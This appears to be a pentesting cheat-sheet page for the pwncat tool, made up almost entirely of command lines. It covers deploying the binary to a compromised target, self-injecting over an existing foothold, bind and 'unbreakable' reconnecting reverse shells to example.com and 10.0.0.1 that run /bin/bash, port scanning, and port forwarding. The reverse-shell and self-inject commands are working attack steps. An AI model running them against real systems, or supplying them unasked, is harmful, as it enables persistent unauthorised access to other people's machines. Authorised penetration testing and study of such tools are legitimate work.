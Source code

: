 # pwncat

{% embed url="https://hakin9.org/pwncat-netcat-on-steroids-with-firewall-ids-ips-evasion-bind-and-reverse-shell-self-injecting-shell-and-port-forwarding-magic-and-its-fully-scriptable-with-python-pse/" %}

{% embed url="https://github.com/cytopia/pwncat" %}

```
pip install pwncat
```

## <mark style="color:red;">Deploy to target</mark>

```
# Copy base64 data to clipboard from where you have internet access
curl https://raw.githubusercontent.com/cytopia/pwncat/master/bin/pwncat | base64 |  xclip -selection clipboard

# Paste it on the target machine
 xclip -selection clipboard -o | base64 -d > pwncat
chmod +x pwncat
```

## <mark style="color:red;">Inject to target</mark>

If you found a vulnerability on the target to start a very simple reverse shell, such as via bash, php, perl, python, nc or similar, you can instruct your local pwncat listener to use this connection to deploy itself on the target automatically and start an additional unbreakable reverse shell back to you.

```
pwncat -l 4444 --self-inject /bin/bash:10.0.0.1:4445
```

## <mark style="color:red;">Summon shells</mark>

```
# Bind shell (accepts new clients after disconnect)
pwncat -l -e '/bin/bash' 8080 -k

# Reverse shell (Ctrl+c proof: reconnects back to you)
pwncat -e '/bin/bash' example.com 4444 --reconn --recon-wait 1

# Reverse UDP shell (Ctrl+c proof: reconnects back to you)
pwncat -e '/bin/bash' example.com 4444 -u --ping-intvl 1
```

## <mark style="color:red;">Port scan</mark>

```
# [TCP] IPv4 + IPv6
pwncat -z 10.0.0.1 80,443,8080
pwncat -z 10.0.0.1 1-65535
pwncat -z 10.0.0.1 1+1023

# [UDP] IPv4 + IPv6
pwncat -z 10.0.0.1 80,443,8080 -u
pwncat -z 10.0.0.1 1-65535 -u
pwncat -z 10.0.0.1 1+1023 -u

# Use only IPv6 or IPv4
pwncat -z 10.0.0.1 1-65535 -4
pwncat -z 10.0.0.1 1-65535 -6 -u

# Add version detection
pwncat -z 10.0.0.1 1-65535 --banner
```

## <mark style="color:red;">Port Forward</mark>

### <mark style="color:orange;">Local port forward -L (listening proxy)</mark>

```
# Make remote MySQL server (remote port 3306) available on current machine
# on every interface on port 5000
pwncat -L 0.0.0.0:5000 everythingcli.org 3306

# Same, but convert traffic on your end to UDP
pwncat -L 0.0.0.0:5000 everythingcli.org 3306 -u
```

### <mark style="color:orange;">Remote port forward -R (double client proxy)</mark>

```
# Connect to Remote MySQL server (remote port 3306) and then connect to another
# pwncat/netcat server on 10.0.0.1:4444 and bridge traffic
pwncat -R 10.0.0.1:4444 everythingcli.org 3306

# Same, but convert traffic on your end to UDP
pwncat -R 10.0.0.1:4444 everythingcli.org 3306 -u
```

## <mark style="color:red;">Interactive Shell</mark>

```
Unbreakable TCP reverse shell
pwncat --exec /bin/bash --nodns --reconn --reconn-wait 2 10.0.0.1 4444

Unbreakable UDP reverse shell
pwncat --exec /bin/bash --nodns --udp --ping-intvl 2 10.0.0.1 4444
```

## <mark style="color:red;">Also Pwncat :)</mark>

{% embed url="https://github.com/calebstewart/pwncat" %}
